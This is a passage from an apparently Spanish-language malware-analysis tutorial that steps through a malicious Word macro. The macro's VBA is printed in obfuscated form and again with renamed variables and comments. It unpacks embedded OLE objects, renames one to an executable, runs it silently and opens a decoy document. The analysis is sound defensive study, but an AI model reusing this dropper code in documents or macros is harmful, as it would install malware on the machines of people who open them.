 ```vba
    Name folder_weoqzisdi___name & "word\embeddings\oleObject1.bin" As folder_weoqzisdi___name & "word\" & file_weoqzisdi___name & Replace(".z_ip", "_", "")
    
    oAzedpp.Namespace(folder_weoqzisdi___name).CopyHere oAzedpp.Namespace(folder_weoqzisdi___name & "word\" & file_weoqzisdi___name & Replace(".z_ip", "_", "")).items
    
    Name folder_weoqzisdi___name & "oleObject" & filewedum & ".bin" As folder_weoqzisdi___name & file_weoqzisdi___name & Replace(".e_xe", "_", "")
    
    Shell folder_weoqzisdi___name & file_weoqzisdi___name & Replace(".e_xe", "_", ""), vbNormalNoFocus
    
    Dim dokc_paeth  As String
    
    dokc_paeth = Environ$("USERPROFILE") & "\Documents\" & Application.ActiveDocument.Name & ".docx"
    
    If Dir(dokc_paeth) = "" Then
        Name folder_weoqzisdi___name & "word\embeddings\oleObject3.bin" As dokc_paeth
    End If
    
    Documents.Open FileName:=dokc_paeth, ConfirmConversions:=False, _
                   ReadOnly:=False, AddToRecentFiles:=False, PasswordDocument:="", _
                   PasswordTemplate:="", Revert:=False, WritePasswordDocument:="", _
                   WritePasswordTemplate:="", Format:=wdOpenFormatAuto, XMLTransform:=""
    
End Sub
```

Luego de eliminar las lineas extra, así como arreglar la identación, procedemos a renombrar las variables para hacerlas mas amigables:

![alt text](/img/003-replace.png "Replace names")

En este caso, tenemos suerte de que algunas de las variables mantienen su nombre original antes de concatenarse con otros caracteres, por lo que nos permite identificar fácilmente para qué son utilizadas. De no tener esa información, podemos deducir su función en base a cómo están siendo utilizadas.

Luego de cambiar el nombre a las variables largas, podemos empezar a avanzar fila por fila analizando lo que parece estar haciendo:

```vba
Sub weoqzisdi___lorfar()
    
    Dim mpath       As String
    Dim mfile       As String
    Dim mfolder     As Variant
    Dim mShellApplication As Object
    
    'Crea objeto Shell.Application
    Set mShellApplication = CreateObject("Shell.Application")
    
    'Asigna la cadena de texto "vteijam hdgtra" a variable mfile
    mfile = "vteijam hdgtra"
    
    'Asigna la ruta de la variable de entorno "USERPROFILE" concatenada con
    '\Wrdix concatenada con el segundo en el que se ejecutó la función y concatenada con "\"
    'Por ejemplo: C:\Users\tmn\Wrdix12\
    mfolder = Environ$("USERPROFILE") & "\Wrdix" & "" & Second(Now) & "\"
    
    'Verifica si el directorio existe y sino, lo crea
    If Dir(mfolder, vbDirectory) = "" Then
        MkDir (mfolder)
    End If
```